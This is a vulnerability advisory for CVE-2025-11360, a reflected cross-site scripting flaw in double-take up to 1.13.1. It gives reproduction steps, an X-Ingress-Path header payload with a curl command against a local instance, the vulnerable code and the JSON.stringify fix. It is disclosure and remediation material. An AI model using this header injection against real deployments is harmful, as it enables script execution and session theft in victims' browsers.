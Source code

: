 # CVE-2025-11360:
Unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability in version <=1.13.1 of double-take: https://github.com/jakowenko/double-take and https://hub.docker.com/r/jakowenko/double-take.
The maintained fixed the vulnerability in version 1.13.2 after I responsibly disclosed the issue to him.

Specifically, the vulnerability is located in the api/src/app.js file, which evaluates unsanitized HTTP GET headers passed via the 'X-Ingress-Path' header.
This allows an attacker to inject arbitrary JavaScript into the response, resulting in reflected XSS when the UI is accessed with a malicious header present.

## Affected Versions:
double-take <=1.13.1, github commit: 8e2728d283b3901d688c2454086fd0b512739b53

## Fixed Version:
double-take 1.13.2, github commit: 92521a0bc8ba70f64c4f794332d48387663ba20e

## CVSS v3.1 Score: 4.3 (Medium)
## Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Proof of Concept and Steps to Reproduce:

1. Download "Double Take" <=1.13.1:
`https://github.com/jakowenko/double-take/archive/refs/tags/v1.13.1.zip`

`cd double-take-1.13.1`

2. Point docker-compose.yml to version 1.13.1:

# docker-compose.yml
```
version: '3.7'

volumes:
  double-take:

services:
  double-take:
    container_name: double-take
    image: jakowenko/double-take:1.13.1
    restart: unless-stopped
    volumes:
      - double-take:/.storage
    ports:
      - 3000:3000

3. Start "Double Take" using docker compose
docker compose up -d
```

4. Set the following HTTP header in Chrome (via the ModHeader extension or similar):
`X-Ingress-Path: ';window.onload = function() { alert(1); }//`


3. Visit the Double-Take UI in a browser:
`http://localhost:3000`

You will see a JavaScript popup alert - confirming JavaScript execution.

3. Alternatively, executing via curl demonstrates that the windows.ingressUrl parameter populates with the payload:

`curl -H "X-Ingress-Path: ');window.onload = function() { alert(1); }//" http://localhost:3000/`


## Impact:
This vulnerability is an example of Unauthenticated Reflected XSS. An attacker who compromises this flaw could execute arbitrary JavaScript in a victim's browser session, steal session cookies or authentication tokens,
extract sensitive information, or impersonate users to deliver social engineering attacks. This particular exploit requires header injection (via X-Ingress-Path),
but it still can be exploited in the wild via misconfigured reverse proxies, malicious browser extensions, or insecure internal tooling that injects headers. Exploiting this vulnerability via a proxy is particularly dangerous since double take is often used in home lab setups, where users setup reverse proxies to access their servers from outside of their own network. A compromised proxy could trivially exploit this vulnerability for arbitrary user requests being sent to the internal server double take runs on.

## Remediation:
The core vulnerability stems from the html.replace() function (lines 27-34) in double-take/api/src/app.js:

    html.replace(
      '</head>',
      `<script>
        window.ingressUrl = '${req.headers['x-ingress-path'] || ''}';
        window.publicPath = '${UI?.PATH || ''}';
      </script>
      </head>`
    )

This function directly embeds unsanitized input from the X-Ingress-Path header of a GET request into a JavaScript <script> block. 
In order to prevent this exploit, I recommended safely escaping values with a function like JSON.stringify():

```
const ingressUrlSafe = JSON.stringify(req.headers['x-ingress-path'] || '');
const publicPathSafe = JSON.stringify(UI?.PATH || '');

res.send(
  html.replace(
    '</head>',
    `<script>
      window.ingressUrl = ${ingressUrlSafe};
      window.publicPath = ${publicPathSafe};
    </script>
    </head>`
  )
);
```

The project maintainer implemented my fix in v1.13.2, as can be seen in the commit comment history on github (92521a0bc8ba70f64c4f794332d48387663ba20e).
